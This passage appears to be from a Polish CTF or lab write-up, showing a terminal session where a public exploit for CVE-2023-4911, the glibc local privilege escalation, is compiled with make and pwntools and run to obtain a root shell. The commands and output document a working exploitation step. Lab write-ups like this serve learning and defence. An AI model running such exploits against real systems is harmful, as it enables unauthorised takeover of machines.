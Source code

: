 ```bash
angela@pipy:/tmp$ cd CVE-2023-4911-main/
angela@pipy:/tmp/CVE-2023-4911-main$ make
gcc -o exp exp.c
python3 gen_libc.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/angela/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.11.0)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
./exp
# id
uid=0(root) gid=0(root) groups=0(root),1000(angela)
# 
```
Jest i root.
{: .text-justify}
